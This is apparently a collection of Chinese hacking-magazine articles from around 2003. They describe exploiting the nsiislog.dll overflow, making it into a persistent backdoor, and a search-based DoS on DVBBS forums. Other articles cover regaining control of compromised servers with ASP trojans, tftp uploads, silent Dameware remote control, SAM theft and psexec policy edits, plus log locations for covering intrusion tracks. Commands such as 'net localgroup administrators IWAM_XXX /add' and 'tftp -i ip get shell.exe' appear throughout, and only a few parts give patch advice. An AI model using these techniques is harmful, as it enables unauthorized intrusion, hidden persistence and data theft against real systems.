就目前而言，一般安装这个服务的主机都存在此漏洞，这样我们就有下手的机会了。安装这个服务后，在 c:\inetpub\scripts 目录里会多出一个 nsiislog.dll 文件，扫描此漏洞一般就需要扫描此文件。推荐大家使用流光进行扫描，由于流光自带的 IIS 漏洞列表文件里没有这个漏洞，所以我们就要手工把漏洞添加到流光列表中。具体做法是：找到流光安装目录，把其中的 ntcgi 文件用记事本打开（图 2）。

我们会发现里面全是 CGI 漏洞，把这个漏洞添加到里面去即可。该漏洞的路径为：/scripts/nsiislog.dll，加好后保存就可以了。大家自己亲自动手试一下就知道了，很简单！加好后就可大面积扫描了。现在有此漏洞的主机还不是很多，只好碰运气了。如图 3 所示，我扫到了一台存在此漏洞的主机。


图 2


图 3

看到了吗？扫描到这样的主机就证明该主机存在此漏洞。通过这几天的渗透实验，我发现了另外一种找到存在此漏洞的方法。Win2000 的 Media 服务使用的是 tcp1755 端口，还可直接用 scanner 单一扫描 1755 端口，图 4 是我扫描到的结果。

扫描到 1755 端口开放后，直接在浏览器中打开 http://ip/scripts/nsiislog.dll，如果 nsiislog.dll 存在，就可进行溢出啦！利用此漏洞的工具叫 media.exe（光盘中有收录），media 的使用方法如下：

```txt
D:\hacker\tools>media
Dicklamer:(. Authors and distributors of this software are not responsible for t
he misuse or illegal use of this software.
Description: testing Windows Media Services for buffer over-flow vulnerability (R
emote Command Execution #2). Binds shell to port 34816 (or higher if port busy).
Usage: media target [-p target_port] [-r /renamed_scripts/renamed_nsiislog.dll]
Supported target(s):
Windows version nsiislog.dll version
2000 [5.00.2195] server rus 4.1.0.3917
```

他的使用格式是：**media 对方 IP -p 端口 -r 路径**。刚才我扫描到的 IP 为 **218.xxx.xxx.xxx**，溢出格式就应该为：**media 218.xxx.xxx.xx -p 80 -r /scripts/nsiislog.dll**。

给大家解释一下，用“-p 80”，是因为一般 IIS 的默认端口都是 80；用“-r /scripts/nsiislog.dll”，是因为一般情况下 nsiislog 的默认路径就在这里。

检查以上信息无错误的话，就可进行尝试溢出攻击了（图 5）。溢出成功后用 nc 或 Telnet 都连接 shell 端口 34816，图 6 是我用 nc 连接的结果。

溢出成功。不知道是什么原因，该工具溢出的 shell 是 Guest 权限，不过可以提升权限，由于以前《黑客 X 档案》多次讲过怎么提升权限，比如替换服务、ASP 木马、tftp、idq.dll……

由于篇幅原因，我就不给大家详解了。

### 四、安全防范

广大的网管朋友看了以后，相信一定想知道怎么弥补此漏洞，厂商已经提供了补丁：Microsoft Patch Q822343，下载地址是 http://microsoft.com/downloads/details.aspx?FamilyId=F772E131-BBC9-4B34-9E78-F71D9742FED8&displaylang=en。

相关信息请参见：http://www.microsoft.com/technet/treeview/default.asp?url=/technet/security/bulletin/MS03-022.asp


图 4


图 5


图 6

打了以上补丁后就不存在此漏洞了。

### 五、注意问题

- 有时 msiislog.dll 并不在 scripts 目录里，有时在 c:\winnt\system32 目录里。具体原因我也不太清楚，不过把这个文件复制到 c:\inetpub\scripts\ 目录里溢出还是可以成功的。
- media.exe 这个文件现在还不是很完善，等以后出了更好的溢出程序我会及时发表相关文章通知大家。
- 溢出后 IIS 不会停止，而且可重复溢出。
- 凡利用本文搞破坏的人与《黑客 X 档案》无关。

## 一个人的战争


iceyes

## 先说两句

说起动网论坛，人们难免会把它们和微软想到一块儿，也许它们的命运真的很相似。微软的产品遍布全世界，只要懂一点电脑的人都知道 Windows。用的人多，研究它的人自然也多，因此三天两头就会有人发现微软产品的新漏洞。天下没有十全十美的东西，视窗是补了又补，最近出了个 SP4，大家都觉得打了这个补丁系统应该很安全了。没想到没过几天微软就承认视窗存在重大缺陷，服务器 2003 也未能幸免。动网的命运也是如此！

PsKey 好像真的和动网过不去，一连发了好几篇关于 DVBBS 漏洞的文章。沙滩这段时间也没能闲着，要花很多时间来对付最新漏洞，听说最近还要出一个动网论坛的新版本。

不知道这个新论坛会不会和 Windows2003 的命运一样呢！还是让我们祈祷吧！

DVBBS 半年来一直都补来补去，很多人都开始戏称它为“洞网”论坛。不过说句良心话，国人能自己编写出这样的论坛，而且免费提供给大家的确很了不起。

## 探究 DVDOS

牢骚了这么多，我还没有引出今天的主题，实在很抱歉！现在我们就开始吧！大家知道 DVDOS 是什么意思吗？听我说完你就明白了！

最近维护的一个网站由于 CPU 消耗过大，被服务商停止，一问原因，原来网站程序消耗资源太大。于是检查自己的论坛程序，选出了 2 个最耗资源的功能——压缩数据库、搜索。一般用户当然不可能压缩数据库，但搜索论坛的功能他们还是默认拥有的！可别小看了这个功能啊！一般论坛只要一台电脑就可以让它拒绝服务！服务器性能好的论坛再加几个线程也可以让它瘫痪！不信吗？那么我们来试试。


随便找个论坛，注册一个用户，登录后就进搜索选项。要消耗多一点的资源当然要选择大点的搜索范围。让计算机大海捞针，它会很吃力的！嘿嘿～填上最大的搜索范围（怎么算最大？你们自己想吧！）。点击“开始搜索”，然后只要不停地回车就可以了（如图）。如果你嫌麻烦，可以用按键精灵来帮你。呵呵，怎么样？论坛上不去了吧，就是能进去也很慢吧！

一般的虚拟主机对网站 CPU 消耗量都是有限制的，我们一下就可以把它消耗完！虽然我们攻击的是论坛，但受影响的是整个网站乃至整个主机。你会发现攻击的网站所有的 ASP 程序都执行得很慢。这是因为所有资源都用来搜索数据库了。不过其它文件我们还可以正常访问，比如 html 文件。因为我们访问这些文件，不需要 IIS 的解释而直接发送给我们。

这里我做测试的是动网论坛，那么其它论坛怎么呢？其它脚本的论坛程序又是怎样的呢？我还没一一去做试验，不过我个人觉得它们也都存在不同程度的影响。这里影响最大的还是 Access 数据库的论坛。Access 本身就比较笨重，运行时自然也相对耗资源！利用这个方法我们的确可攻击其它类型的论坛。我测试了某个知名联盟的 PHP 论坛，没几秒就瘫痪了。不过攻击小论坛效果没有大论坛好，数据库越大当然就越容易攻击。CGI 的论坛我还没有去测试，估计也差不多吧！

利用这个方法，10 个动网论坛至少有 9 个可以被攻击。就连动网官方论坛也这样！不过动网论坛 SQL 版相对要好一点。但任何东西的承受力都有个度，超过这个界线照样可攻击成功。这样看来，动网新的论坛也就避免不了这个问题，让人又想起 Windows2003 的命运了！

这么多的论坛都能被攻击，看来大家一直没有注意这个问题！废话说了这么多，也该说说怎么防范了。最简单的办法就是取消普通用户的搜索功能，我就是这么做的。谁让我没有学 ASP 呢！不过，我可以把用户搜索选项减少点，让最大搜索范围小些。对于 DVBBS，多增加几个数据表可减小最大搜索范围，也可提高论坛的访问速度。

从来没有写过这么杂的文章，不知道对大家有没有帮助。DVDOS 是什么意思，现在应该明白了吧！就是利用 DVBBS 实现拒绝服务攻击。我们可以利用不正常的访问数据库来攻击论坛，也可利用不正常访问其它程序的数据库来攻击网站。总之，要攻击一个网站，攻击数据库是很不错的选择！


## 一个人的战争

动网论坛马上就要升级了，但毕竟只是“马上”而已，而且升级后估计有很大一部分网站仍然会沿用 6.0 一段时间，所以这时研究动网 6.0 的漏洞也不算是白费时间！

不像各位大虾，我可没耐心去一句句地分析源码，我是想到什么就去测试什么的那种人，这个漏洞也是这么发现的。

### 意外发现

那天像往常一样跑到论坛去灌水，突然注意到回帖时，地址栏里除了帖子的主题编号 ID 外，只有版面 ID（为什么以前就没注意到呢？）。这么说，只要 reannounce.asp 文件没有过滤 BoardID，那么那些收费论坛的 VIP 区……既然想到了，就马上行动！

### 修改帖子

找到个收费论坛，查找 VIP 区的帖子，点击浏览，提示我没有权限查看。把 BoardID 的值改成其它版面的，回车（激动～激动～）！竟然提示我该主题不存在？！无语……

跑到 X 的论坛逛逛，在小菜区发现一篇看了让人极度不爽的帖子，在我心情不好时被我看见算你倒霉。删！！没权限……忘了小菜区不是我的地盘（图 1）！


突然间又想到了刚才那个假设，就把小菜区的 BoardID=2 改成了农具店的 BoardID=9，帖子管理界面出来了（图 2）。


但怎么是“农具店”的帖子管理啊？不管了，试了再说！点确认操作，再回小菜区……帖子消失。我的天，真的可以！看来 admin_postings.asp 文件没有过滤 BoardID 啊！


### 真实的神

成功了一次兴致也跟着来了！继续试试其它版主的管理权限，锁定、解锁、提升、移动、固顶、奖励、惩罚、发布公告……怎么只有奖励和惩罚有用啊！我没有灰心，继续。接下来是编辑帖子！成功，看来 editannounce.asp 文件也没对 BoardID 进行过滤啊！

嘿嘿！好玩，去改土豆的总置顶帖！晕，不能修改等级比自己高的！呵呵，忘了这个了。再想想，既然 editannounce.asp 文件没对 BoardID 进行过滤，那对 replyID 是不是也没进行过滤？马上把目标帖子的 replyID 改成我自己发的帖子的 replyID，回车。嘿嘿，编辑界面出现，虽然显示的是我的帖子内容，但主题编号 ID 没变。这样从理论上来说，是可以更改帖子的主题的！提交，哇塞，居然成功了（图 3）……


还是快回来吧！不然我就被土豆杀了就不好玩了（这个漏洞只要是能够发帖的用户都能利用）。这几个漏洞的主要原因是有些文件没有对 BoardID 和 replyID 进行过滤，现在来看看解决方法！

### 解决措施

动网于 7 月 24 日放出了补丁，可并不完美，没有解决版主跨版面行使权限的问题。大家可在打补丁后再自己修改一下。

- **免费版补丁下载地址：**  
  http://www.dvbbs.net/download/dvbbs6.0.0_AC_Q0724.rar
- **商业版补丁下载地址：**  
  http://www.dvbbs.net/download/dvbbs6.0.0_SQL_Q0724.rar

下面是具体的文件修改方法：先来看看 admin_postings.asp 文件，在这个文件的第 28 条：

```vbnet
end if
if doWealthMsg="" and douserEPMsg="" and douserCPMsg="" then
    allmsg="没有对用户进行分值操作"
else
    allmsg="用户操作：" & doWealthMsg & douserEPMsg & douserCPMsg
end if
```

要注意的是，将下面的一段代码

```vbnet
if not founderr then
    set rs=conn.execute("select title, postusername, postuserid, PostTable from topic where topicid="&id)
    if rs.eof and rs.bof then
```

修改如下：

```vbnet
if not founderr then
    set rs=conn.execute("select title, postusername, postuserid, PostTable from topic where BoardID="&boardid&" and topicid="&id)
    if rs.eof and rs.bof then
```

然后再是 editannounce.asp 文件，找到这两句：

```vbnet
set rs=conn.execute("select PostTable from topic where TopicID="&AnnounceID)

sql="select b.username, b.topic, b.body, b.dateandtime, u.usergroupID from "&TotalUseTable&" b, [user] u where b.postuserid=u.userid and b.AnnounceID="&replyID
```

将其修改为：

```vbnet
set rs=conn.execute("select PostTable from topic where BoardID="&boardid&" and TopicID="&AnnounceID)

sql="select b.username, b.topic, b.body, b.dateandtime, u.usergroupID from "&TotalUseTable&" b, [user] u where b.postuserid=u.userid and b.BoardID="&boardid&" and b.AnnounceID="&replyID
```

最后是 saveditannounce.asp 文件，跳到 saveditannounce.asp 文件的 196 行，加入 `and b.rootid="&rootid&"`，可参照补丁文件修改。

这 3 个文件都修改后，上面的几个漏洞就都能解决了。OK，万事大吉！


看了本期紫幻写的《Windows Media 服务 nsiislog.dll 远程缓冲区溢出漏洞》，想必大家对 Media Services ISAPI 扩展缺陷溢出漏洞都有所了解了。我最近也对此漏洞测试了几次，得到的自然也是 GUEST 权限的 Shell。对于现在大部分 SP3、SP4 的机器来说，想把 GUEST 权限的用户提升起来可不是件容易的事。这个漏洞初看起来似乎是一个鸡肋——食之无味、弃之可惜。其实不然，通过一次实验中的错觉，意外地发现这个漏洞居然可用来做成后门。按照常规思路是利用漏洞取得权限，然后做后门，而这篇文章则是提供给大家一个思路，就是如何把漏洞做成后门。

### 一、新漏洞新思路

我在测试这个漏洞时发现了一些有趣的问题，这个漏洞是针对安装 Media Services 的系统来的，安装这个媒体服务后，在 INETPUB\SCRIPTS 目录下会出现一个名为 nsiislog.dll 的文件，这就是我们要利用来溢出的文件。我们只要通过 80 端口发送溢出代码就会造成 nsiislog.dll 程序的溢出。大胆设想一下，如果这个溢出只是与这个文件独自相关的话，那岂不是可单独利用它吗。可能大家看得还是不明白，那我举个实例来说明：

- 在一台安装有 Media Services 的主机上提取一个 nsiislog.dll 样本；
- 把 nsiislog.dll 文件复制到一台没有安装 Media Services 服务器的 SCRIPTS 目录下；
- 尝试溢出 nsiislog.dll，结果是成功的。

这个实例表明，nsiislog.dll 是可以被单独提取出来利用的。

> **LOOK 注意**  
> 这个漏洞的 Shell 权限为 Guest，为什么是 Guest 权限呢，因为这是针对 IIS 的溢出，所以 Shell 的权限是继承 IIS 的权限，而在缺省状态下 IIS 在系统中的权限为 Guest 权限。

这里我们继续设想一下，假设目标服务器 IIS 的权限被人为地改为 System 权限，那我们溢出 nsiislog.dll 之后得到的 shell 权限也会继承为 System 权限。怎么样，大家到这里已经大概明白我的意图了吧？我的意图就是利用 nsiislog.dll 制造一个极为隐蔽的后门。还没有明白吗？下面我就通过一个实例来详细讲述如何配置这款后门！

### 二、从漏洞到后门

所谓后门肯定是要取得一定权限后才能安装，所以这里我们就不再通过什么手段取得目标系统权限了（具体大家可参考以前的《黑客 X 档案》）。

#### 1. 上传 nsiislog.dll

当我们夺取最高权限后，进入目标机器，然后上传 nsiislog.dll。dll 到肉鸡 inetpub/scripts 目录下（图1）。上传的方法有很多种，比如：ftp、tftp、ipc$ 等，或者直接在图形界面下用 IE 下载都可以的。


图1

> **注意**  
> 因为在 CMD shell 下提升账号容易被发现，而在 GUI shell（3389）下，利用添加账号却能提升 IIS 权限，所以推荐使用第 2 种方案，也就是用图形界面下的方法来配置这个后门为好。

#### 2. 提升 IIS 权限

文件上传后，接下来我们要做的就是对 IIS 权限的提升了，这里我们分两种情况来进行讨论。

- (1) cmd 命令行下  
  对于 IIS 的账号，很多资料上说是 IUSR_XXX，其实提升这个账号是没有用的。应该提升的账号是 IWAM_XXX。使用命令如下：  
  **net localgroup administrators IWAM_XXX /add**（XXX 是机器名，这个用户名可使用 NET USER 命令查看）  
  然后使用命令 **iisreset /restart**，重新启动 IIS 服务（图2）。


图2

- (2) 3389 图形界面下  
  3389 下制作的后门相对来说较隐蔽一些。进入“INTERNET 信息服务”→选择“默认的 WEB 站点”→查看“属性”→选择“主目录”标签。然后在“应用程序保护”处选择“低（IIS 进程）”，默认为“中（共用的）”如图3。然后保存就 OK 了！

#### 3. 尝试溢出目标机器

权限提升后，我们就可溢出已做好的系统后门了，权限自然是 SYSTEM 权限，结果前面已经描述了，这里不再赘述。

### 三、漏洞后门的特点

很多朋友会说，既然我都能 3389 了，还要这个后门干什么？问得好！登录 3389 需要账号。有朋友可能会说制作隐藏的账号不就可以了吗？没错！隐藏账号只能在当次隐藏，一旦服务器重启，账号就会暴露无遗。当然你还可以克隆账号！但往往又会出一些莫名其妙的问题。

当然，本文介绍的后门也是一个新的思路，起码为大家又添加了一种可行的后门方式。

这款后门在登录时直接利用漏洞溢出服务器得到一个 Shell，再添加一个账号就可登录了，当我们从肉鸡上下来时，最好还是删除刚刚创建的账号为好！

这个后门的优点是它不会被任何杀毒软件所查杀，因为服务端所有的文件都是比尔门下的哦！如果被查杀，我想比尔也不会善罢甘休的。后门被发现的几率也不是很大，因为这个后门的连接过程是先溢出再连接。溢出的端口是 80，也相当于后门的监听端口就是 80。80 是合法端口，我想也没有哪个网管会横加干预吧！

### 四、总结

使用溢出程序溢出目标主机后得到 SYSTEM 权限的 shell。

这个漏洞可应用在 SP4 版本的 Win2K 上面。虽然是个漏洞，但理解了原理后却可把它当作一个木马来应用。

在论坛上看到很多朋友把一个漏洞仅仅看作是漏洞，却不能举一反三，灵活运用。希望本文能给大家一些启发，也希望各位网管看到后能深有体会。本文只做技术探讨，由此引发的一切责任与作者和本刊无关。

## 肉鸡归来记

凌云

### 一、后门被肉鸡发现

放假没事在家，想起自己的那个烂主页放在肉鸡上很久没去照顾了，便上网去瞧瞧还有什么内容，也好更新一下。

打开 IE，添上地址 211.xxx.xxx.xxx\_private\（这个目录里放东西一般没人会发现的，我把个人主页就放在这里）。奇怪，打不开？看样子是被网管发现了，不要紧，我留了不少后门，他不会全删除了吧！

去年的还行，今年不少杀毒软件都将它定义为木马了，被网管杀了也是正常的事情，还是去看看我的 ASP 木马吧！输入地址 http://211.xxx.xxx.xxx/cmd.asp，居然打不开，看来这个木马也被发现了。这是海阳顶端网的 ASP 木马，没有修改过，因此也能被瑞星发现，被 kill 也是意料之中的事。不要紧，我还有一个修改过的 ASP 木马，放在一个很深的目录里，哈哈，我阴险吧！踌躇满志地打上地址……天！还是打不开，文件不存在……。不怕不怕，我心中自我安慰，我还有 administrator 的密码（以前用 findpass 得到的，本来也想写个教程的，发现已经有人写了，5555）和 sql 弱密码（我就靠这个入侵的）。还是先试试 administrator 密码吧！

看看 winshell 先，执行 nc -vv 211.xxx.xxx.xxx 7 命令（7 是我设的端口，默认是 echo，很隐蔽吧）。等了一会儿，连不上。没办法，winshell 的名气太大了。

## 一个人的战争

### 二、发现漏洞

执行 net use \\211.xxx.xxx.xxx\ipc$ password /user:administrator，失败，把 administrator 的密码换了？我汗……。试试 sql，也不行！

完了，这个肉鸡算是飞了，我一边后悔当时没再做个隐藏账号，一边准备下线。忽然想起以前用 3389 时看到网站的 rar 备份，就顺手放了一个 asp cmd 的 asp 木马，估计网管不会发现这个。试着打入地址 http://211.xxx.xxx.xxx/temp.asp，哈，居然成功了（图1）。


图1

这下你逃不掉了！我一声狂笑，打开 tftp32.exe，在 asp 木马上打 tftp -i ip get shell.exe，准备上传一个后门。激动地按下鼠标后，一串尴尬的字符荡漾在我面前——返回错误信息。试试能不能加个用户，执行命令 net user aaa aaa /add，不成功（图2）。我忘了，这个 asp 木马只有 guest 权限，看来我只能用这个木马看看文件了。


图2

我边想边打开 superscan，看看对方究竟开了哪些端口，如果开了 pcanywhere，我可以拿 cif 文件，然后用流光自带的工具解开……不一会儿，结果出来了，如图3。天！一点可利用的都没有，139 端口都没打开，防范得不错啊！


图3

算了，看看他都装了些什么吧！我边想边在 asp 木马中打入命令：dir c:\，如图4。文件建立时间都很新，怪不得木马和原来的账号都没了。咦！sql2ksp3？看来补丁打到了 sp3 了，w2ksp3.exe？哈，Windows 2000 只打到 sp3？这下有希望了，sql 溢出是不可能了，但还有 webdav 溢出啊！修改一下系统时间（否则无法用，isno 的那个有时间限制），试着溢出一下。1秒，2秒，3秒……一分钟过去了，还没成功！看来网管在打完补丁后又升级过了。


图4

忙乎了半天却没成功，心中不由升起一股怨气。打开流光，填上 IP，选上所有选项，给它来个大检查——我就不信没一点漏洞？拒绝服务的 cgi 漏洞也行啊！先到 qq 群里和朋友聊一会儿，过了十分钟，一看结果，faint！administrator 密码为空！我倒！

忙乎了半天没想到竟然有那么大的一个漏洞！二话不说，立刻调出流光的种植者，给它种个 winshell，失败！装有杀毒软件？试试改过的 asp 木马——失败！

怪了，没理由啊，仔细看了流光的扫描结果，发现对方只开了 ipc$，而没有共享 c$、d$、admin$。难怪流光无法复制，也难怪网管的胆子那么大——他以为只要删除了共享就无法上传了，有弱密码也无所谓了！说实话，这招对那些用 ipc 自动种植器的家伙来说真的很有用，但碰到像我这样就……让他尝尝 Dameware 的厉害吧！

### Dameware 施展绝技

相信知道 Dameware（光盘中有收录）的高手一定不少，在《黑客X档案》上就有不少高手提起。这款软件最大的好处在于当你知道肉鸡的管理员账号和密码后，且肉鸡支持 ipc$ 时就可远程安装 Dameware mini remote control 进行图形界面的远程控制，而其主要的项目 Dameware NT utilities 更是可以对肉鸡的日志、进程、注册表、服务、共享文件夹、用户等进行管理！由于该软件在没有经过配置就连接时会在远程主机桌面的状态栏上出现个图标，且还会出现连接提示窗口，所以我在这说一下如何配置 Dameware NT utilities（写本文时发现 2003 年 7 期的《黑客X档案》就有近墨者写的关于使用时的一些心得，看来英雄所见略同呀）。

首先打开 Dameware mini remote control，填上相应的 IP 地址、用户名和密码，按“Settings”按钮（图5）。


图5

在“Install Options”选项中将“Copy Configuration File DWRCS”选上，然后单击“Edit”（图6），去掉“Notify Dialog”中的“Notify on Connection”选项（图7），以及“Additional Settings”中的“Enable Systray Icon”选项（图8）。


图6


图7

如果想图方便，将上面的“Copy Configuration File DWRCS”选项勾上，然后单击“View”按钮，将相应选项修改成如下代码即可：

```ini
[Settings]
Port=6129
Adgang NTLM=Yes
Adgang 1=
Adgang 2=
Adgang 3=0
Notify On New Connection=No
Permission Required=No
Show SysTray Icon=No
Permission Required for non Admin=Yes
On Disconnect Logoff Desktop=No
Force Applications Close=No
On Disconnect Lock Workstation=No
Logon At Logon Desktop Only=No
Enable Add Client Connection Menu=Yes
Enable Disconnection Menu=Yes
```

在这里我顺便提点建议，在图6的另一个选项卡“Display Options”里把“Gray Scale”（黑白）勾上，因为 Dameware mini remote control 的控制方式和 3389 终端服务不一样，它是基于屏幕截图的，所以速度没 3389 快，改为黑白速度就快多了，小猫也能忍受！


### 四、觅回肉鸡

配置完文件后，我们就可远程连接了。

看看肉鸡先，如图9（我用的是黑白画面，感觉还是挺清晰的吧）。一台标准的 Windows Server 主机，一点多余的程序也没有安装。好，我们来给它共享吧，否则不能上传东西了。同样是 Dameware 的组件——rcmd（没人介绍过吧？）用过 Telnet 后门的朋友一定很喜欢它的，同样的使用方法，但 rcmd 更为隐蔽。与 Telnet 相比，无须修改 NTLM，也不用开 Telnet 服务，更不用改端口——它用的是 445 端口，十分安全。和 Winshell 比，不用担心被认为木马而删除。

rcmd 的安装十分简单，打开 Dameware NT utilities，选择“Remote Command”中“rcmd view”或“rcmd console”就会出现图10所示的样子。输入用户名和密码就行了，和 Telnet 一样。现在我们打上命令 net share c$="c:\"，等一下，我们再到 Dameware NT utilities 的 Share 选项中看看（图11）。一切 OK！简单的复制/粘贴一下，肉鸡失而复得了。


### 五、后记

成功后，我仔细想了想，取回肉鸡的主要原因是对方的大意，自以为不开共享就没关系了。因此有些侥幸，如果以后没那么好的运气呢？仔细思考一下，发现希望还是有的！

- 1. 如果开 pcanywhere，就去拿 cif 文件，然后用流光自带的软件解开（注意不是破解，速度很快的）。
- 2. 去 winnt\repair 和 winnt\config 下拿 sam 文件。方法很简单，用 tftp 把 get 改为 put 上传，或者将其复制到网站的目录下，改为 zip 或 exe 文件，在 IE 上打地址就能下载了（前面的 cif 文件也是这样拿），然后用 lc4 破解。
- 3. 做个 bat 文件——用 echo，里面是建立用户的命令，放在 Documents and Settings 下开始菜单里的“启动”下面。然后就等肉鸡重新启动了——这也是我为什么到最后要找个哪怕是 DOS 的漏洞。

不过 2 和 3 的方法要确保有写权限（tftp 的 put 不用）。作为一个 tool user 和 scripts kiddy，行文难免有疏漏之处，如果大家有什么意见或问题可来黑客X档案的论坛和我讨论（http://www.hackerxfiles.net/bbs）。

## 塞翁失“鸡”焉知非福——浅谈交互登录问题的解决办法

欲望之翼

大家在登录终端时或许会出现如图1所示的错误提示。好不容易得到了一台配置较好的肉鸡，却出现这样的提示，是不是很恼人？

像这样的情况应该说是很普遍的，经常有朋友在论坛上提出这样的问题，但似乎没有什么好的解决办法。


所以笔者这次拿自己最好的肉鸡开了一次刀，以探究问题的产生原因及解决办法。在这次经历中，我得到了很多经验和教训，所以拿来和大家交流一下，一起进步才是最重要的！

### 一、失“鸡”

为研究交互登录问题，我忍痛将自己配置最好的肉鸡拿出来当了实验品。研究交互登录问题，首先要安装 Active Directory，即活动目录，步骤如下：

- 1. 执行“开始→程序→管理工具”，选择“配置服务器”，出现新窗口。
- 2. 选择“Active Directory”，出现新窗口，选择“启动 Active Directory 向导”，然后一直按默认选项设置，直到出现图2所示的窗口。


图2

这里需要指定一个 DNS 名，因为是肉鸡，所以我也是随便设置的，比如我的网站地址是 www.longker.com。你也可以随便设置一个，因为是测试，所以可以按自己的实际情况来设定，输入又是一路回车，直到出现图3所示的窗口。


图3

又是一路回车，最后一步开始配置阶段，需要的时间还是挺多的，请耐心等待。过了一会儿，配置完成，重启后设置开始生效。

重启后，终端客户端登录，我们先来比较设置前后登录窗口的不同，显然多了个选项，就是我们在设置活动目录时设置的那个 WWW 域，如图4、图5。


图4


图5

输入自己原来克隆的 Guest 账户和密码，居然说该账户被禁用，幸亏事先留了后门。Telnet 后把账户激活登录，发现我们在文章最前面提到“本地权限不允许交互登录”的现象出现了。于是，“为什么我克隆了账户登录时却提示不能进行交互登录”的现象就有了明确的答案，那是因为对方主机安装了活动目录（AD）或者说是一个域控制器（DC），而自己克隆的账户没有在域安全策略里进行设置，所以就产生了该现象。难道就眼看着自己最好的肉鸡死掉？当然是不甘心的，塞翁失马，焉知非福嘛，以下就来探究此类问题的解决办法。

### 二、失而复得

由于我们不能登录终端进行对域安全策略的设置，因此给问题的解决造成了一定的难度。如果是可以终端登录的情况，那简单了；如果不能终端登录，情况就稍微复杂些，以下我们将分两种情况来讨论。

#### 1. 可以使用终端登录

或许有这样的情况，你在肉鸡上多加了一个用户，它却不能进行交互式登录，但可用原来的账户登录终端，这种情况解决方法如下：

在默认情况下，普通用户无权在域控制器（DC）上交互式登录。要赋予用户在 DC 上交互登录的权利，需要执行“控制面板→管理工具→域控制器安全策略→安全策略→本地策略→用户权利指派→允许在本地登录”，以添加允许登录的用户。如果我们新增一个用户或克隆一个账户，默认情况就没有在域安全策略里进行设置，也就无法进行交互式登录。我们按实际情况添加允许登录的账户后，需要用 **Secedit /refreshpolicy machine_policy** 命令来刷新安全策略设置，或用 **Secedit /refreshpolicy machine_policy /enforce** 命令强制刷新安全策略设置，问题这样就解决了（注：Secedit.exe 是 Win2K 自带的自动化安全配置任务命令行管理工具，功能强大，可用来分析、配置、刷新、导入、导出、验证系统安全配置。具体用法可使用 **Secedit /?** 命令来查看帮助文件）。

#### 2. 不能使用终端登录的情况

不能使用自己的账户进行登录，确实有点麻烦，我们总不能找肉鸡的管理员让他把你加到允许交互登录的组吧？实际上，情况并没想象的那样糟，经过一番思考和测试，发现我们可借助 ipc$ 以及远程执行命令来解决这个问题。由于域安全策略和本地安全策略的不同，我们也将分两部分来讨论。

##### (1) 被域策略拒绝本地登录的解决办法

域安全策略的配置文件是保存在一个名为“GptTmpl.inf”的安全模板里（一般在 winnt\sysvol\sysvol 下），我们可用记事本打开直接来编辑。由于我们不能登录肉鸡，所以可通过 ipc$ 连接，把肉鸡的 GptTmpl.inf 文件 copy 到本机，用记事本打开，找到文件中“Privilege Rights”项下的“SeDenyInteractiveLogonRight”关键字，它的值就是被拒绝本地登录的用户或者是组的 SID，我们可以把这些 SID 删除，注意不要删除该关键字，修改完毕后放回肉鸡覆盖原文件。

同样再打开 GPT.INI 文件，提高“General”下“Version”关键字的值，通常是加 1000。修改完毕放回肉鸡覆盖原文件（为了安全性，事先备份这两个文件）。然后用 **Secedit /refreshpolicy machine_policy /enforce** 命令刷新策略，问题就解决了。

##### (2) 被本地安全策略拒绝交互登录的情况

我们先与肉鸡建立 ipc 连接，然后使用 Pstools 里的 psexec.exe 开启远程命令行（光盘中有收录），假设肉鸡的 IP 是 111.111.111.111，用户名和密码分别是 longker 和 love，执行以下命令：

```bash
net use \\111.111.111.111\ipc$ "love" /u:"longker"
psexec \\111.111.111.111 cmd.exe
```

这样就启动了远程命令行。接着我们把肉鸡的本地安全策略用 secedit 导出来，格式是：**Secedit /export /CFG c:\winnt\longker.inf**，这样就把肉鸡的本地安全策略配置导出到肉鸡“c:\winnt\longker.inf”安全模板里。然后把肉鸡上的 longker.inf 拷贝到本机进行编辑，具体是找到文件中“Privilege Rights”项下的“SeDenyInteractiveLogonRight”关键字，它的值就是被拒绝本地登录的用户或者是组的 SID，我们可以把这些 SID 删除，但注意不要删除该关键字，修改完毕后放回肉鸡覆盖原文件 longker.inf。然后在刚才打开的远程命令行里执行 **Secedit /configure /db c:\secedit.sdb /CFG c:\winnt\longker.inf** 命令。最后用 **Secedit /refreshpolicy machine_policy /enforce** 刷新策略配置，问题就这样解决了。

### 三、总结

经过这次肉鸡的失而复得，我积累了更多经验和教训。

还是一句话，如果能多思考，多动手，再难的问题也是可以解决的。

由于文章写于考试期间，错误之处难免，如有什么不当之处，还请各位黑迷与我交流。

## 惊叹 Win2k 的日志与安全

日志的作用，我想就不用我多说了吧。各位在光临完别人的主机后都会清除它的。很多对 Windows 日志不是很了解的人，在入侵成功后，做起事来都是畏手畏脚的，不知道哪些动作会被记录下来。其实，只要了解了日志的位置和记录的内容后，就可消除大家这种担心了。

### 一、常见日志位置

首先，先来看看常见日志的一些位置：这些是常见的、能明确记录一些事件过程的日志位置。接下来，我给大家简单讲解一下各个日志的作用。

### 二、解读日志

### ■ 第一位置：

`C:\WINNT\system32\LogFiles\MSFTPSVC1` 下，这里全都是 Win2k 里 IIS 服务中的 FTP 服务所记录的日志，日志文件名命名方式如 `ex030327.log`，可据此确定日志记录时间。

```text
#Software: Microsoft Internet Information Services 5.0
#Version: 1.0
#Date: 2003-03-27 12:51:50
#Fields: time c-ip cs-method cs-uri-stem sc-status
12:51:50 192.168.46.1 [1]USER python 331
12:51:54 192.168.46.1 [1]PASS - 230
12:52:11 192.168.46.1 [1]QUIT - 230
...
```

从日志第一行可以看出是 IIS5.0。第三行处有详细的日期和时间：2003-03-27 12:51:50。接下来是日志的内容，这里是关键部分，作者分析了第一行内容。

```text
12:51:50 192.168.46.1 [1]USER python 331
12:51:54 192.168.46.1 [1]PASS - 230
12:52:11 192.168.46.1 [1]QUIT - 230
```

这些日志说明客户端从连接、提交用户名、密码验证到退出 FTP 的全过程。通过状态码（如 331、230）可判断是否登录成功，以及行为顺序。

### ■ 第二位置：

`C:\WINNT\system32\LogFiles\W3SVC1` 下，这里是客户端浏览 Web 时产生的日志，命名方式和解读方法与 FTP 日志相似。

### ■ 第三位置：

- `C:\WINNT\system32\config\AppEvent.Evt`（应用程序日志）
- `C:\WINNT\System32\config\SecEvent.Evt`（安全日志）
- `C:\WINNT\system32\config\SysEvent.Evt`（系统日志）

这三个日志有共同之处，后文将它们放在一起讲解：可在“控制面板 → 管理工具 → 事件查看器”中查看其日志路径与属性。


图1

通过查看三个日志，可以较容易发现对计算机程序或服务的访问。例如查看系统日志时，重点关注“来源”和“描述”等字段，可判断问题来源与访问意图。


图2

